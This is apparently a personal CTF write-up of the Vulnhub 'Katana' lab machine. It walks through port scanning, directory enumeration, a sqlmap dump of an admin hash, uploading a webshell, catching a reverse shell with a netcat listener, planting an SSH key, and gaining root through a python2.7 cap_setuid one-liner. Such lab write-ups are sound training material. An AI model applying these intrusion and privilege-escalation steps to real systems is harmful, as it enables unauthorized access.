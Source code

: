 ```yaml
---
title: "Vulnhub: Katana"
layout: archive
date:   2021-01-19
tags: Vulnhub
tags_label: true
---
```

This is beginner-intermediate machine from Vulnhub. Doing this machine was the first time I had ever heard of capabilities.

## Scanning:

Finding the machine on the network

```
crazyeights@es-base:~$ nmap -PS 192.168.0.1-255

Nmap scan report for 192.168.0.207
Host is up (0.00028s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8088/tcp open  radan-http
```

Finding more details about the services running on the machine:

```
crazyeights@es-base:~$ nmap -A -p- 192.168.0.207

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
8088/tcp open  http        LiteSpeed httpd
8715/tcp open  http        nginx 1.14.2

| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: katana
|   NetBIOS computer name: KATANA\x00
|   Domain name: \x00
|   FQDN: katana
```

## Port 80

Index Page:

![/assets/images/katana/Screenshot_from_2021-01-15_21-00-28.png](/assets/images/katana/Screenshot_from_2021-01-15_21-00-28.png)

Enumerating to look for more files and folders:

```
crazyeights@es-base:~$ dirb http://192.168.0.207

==> DIRECTORY: http://192.168.0.207/ebook/                                     
+ http://192.168.0.207/index.html (CODE:200|SIZE:655)                          
+ http://192.168.0.207/server-status (CODE:403|SIZE:278)                       
                                                                               
---- Entering directory: http://192.168.0.207/ebook/ ----
[SNIP]
```

### The Bookstore:

![/assets/images/katana/Screenshot_from_2021-01-15_21-03-24.png](/assets/images/katana/Screenshot_from_2021-01-15_21-03-24.png)

I have worked with the application before in another box. I know  that the bookisbn parameter on the book page is vulnerable to sql injection, and the create/add book section is vulnerable to arbitrary file upload, which leads to remote code execution.

Unfortunately the ability to upload files for book covers has been stripped from the application so there is not much we can do.

We can exploit the sql injection vulnerability but there is nothing in the database that is helpful.

```
crazyeights@es-base:~$ sqlmap -u http://192.168.0.207/ebook/book.php?bookisbn=978-0-321-94786-4 --dump
                                         
Database: ebook                                                                                                                        
Table: admin
[1 entry]
+-------+--------------------------------------------------+
| name  | pass                                             |
+-------+--------------------------------------------------+
| admin | d033e22ae348aeb5660fc2140aec35850c4da997 (admin) |
+-------+--------------------------------------------------+
[SNIP]
```

Moving on to another service is the best next step.

## Port 139, 445

Using enum4linux we find the username of local user katana

```
S-1-22-1-1000 Unix User\katana (Local User)
```

There is nothing else here. Moving on to the next service.

## Port 8088

This service also had the katana index page. 

When we enumerate we find several helpful pages.

```
crazyeights@es-base:~$ dirb http://192.168.0.207:8088 -X .html,.php,.txt

---- Scanning URL: http://192.168.0.207:8088/ ----
+ http://192.168.0.207:8088/error404.html (CODE:200|SIZE:195)                  
+ http://192.168.0.207:8088/index.html (CODE:200|SIZE:655)                     
+ http://192.168.0.207:8088/phpinfo.php (CODE:200|SIZE:50761)                  
+ http://192.168.0.207:8088/upload.html (CODE:200|SIZE:6480)                   
+ http://192.168.0.207:8088/upload.php (CODE:200|SIZE:1800)           
```

On the upload.php page we see the following:

![/assets/images/katana/Screenshot_from_2021-01-15_22-05-35.png](/assets/images/katana/Screenshot_from_2021-01-15_22-05-35.png)

On the upload.html page we see a file upload form, meaning that we can likely upload a reverse shell:

![/assets/images/katana/Screenshot_from_2021-01-15_22-05-45.png](/assets/images/katana/Screenshot_from_2021-01-15_22-05-45.png)

I kinda got a bit lost when I did this, I was convinced it wasn't working because I kept getting an error message when I tried a reverse shell, so I uploaded a webshell instead. It would with a reverse shell though, saving a step.

![/assets/images/katana/Screenshot_from_2021-01-15_22-16-46.png](/assets/images/katana/Screenshot_from_2021-01-15_22-16-46.png)

The next step is to find the location of the reverse shell on the four web servers on ports 80, 7080, 8088, and 8715, because the location /opt/manager/html could be a different web service.

I checked for katana_ws.php file on each of them one at a time until I found it on port 8715:

![/assets/images/katana/Screenshot_from_2021-01-15_22-18-16.png](/assets/images/katana/Screenshot_from_2021-01-15_22-18-16.png)

Start the listener:

```
nc -lvp 1234
```

Use the web shell to spawn a reverse shell to get access to the machine:

![/assets/images/katana/Screenshot_from_2021-01-15_22-21-27.png](/assets/images/katana/Screenshot_from_2021-01-15_22-21-27.png)

## User

For the user katana we can find their password in a hidden file in their home directory:

![/assets/images/katana/Screenshot_from_2021-01-15_22-21-51.png](/assets/images/katana/Screenshot_from_2021-01-15_22-21-51.png)

We can now login as katana:

![/assets/images/katana/Screenshot_from_2021-01-15_22-23-40.png](/assets/images/katana/Screenshot_from_2021-01-15_22-23-40.png)

Add our public key to katana's authorized_keys to login via SSH for a nicer shell:

![/assets/images/katana/Screenshot_from_2021-01-15_22-24-33.png](/assets/images/katana/Screenshot_from_2021-01-15_22-24-33.png)

![/assets/images/katana/Screenshot_from_2021-01-15_22-24-34.png](/assets/images/katana/Screenshot_from_2021-01-15_22-24-34.png)

This took me a long time to find out. We must use the capabilities configuration for privilege escalation. Capabilities allows for a root user to assign other users root privileges only for specific tasks. 

The file capabilities.conf was not in the default location (/etc/security), and the tool getcap was not on the PATH.

```
katana@katana:~$ /usr/sbin/getcap -r / 2>/dev/null 
/usr/bin/ping = cap_net_raw+ep 
/usr/bin/python2.7 = cap_setuid+ep
```

cap_setuid allows the changing of the UID, so we can use python2.7 to get root by spawning a root shell with euid set to 0.

```
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![/assets/images/katana/Screenshot_from_2021-01-15_22-59-26.png](/assets/images/katana/Screenshot_from_2021-01-15_22-59-26.png)

FIN. 🥳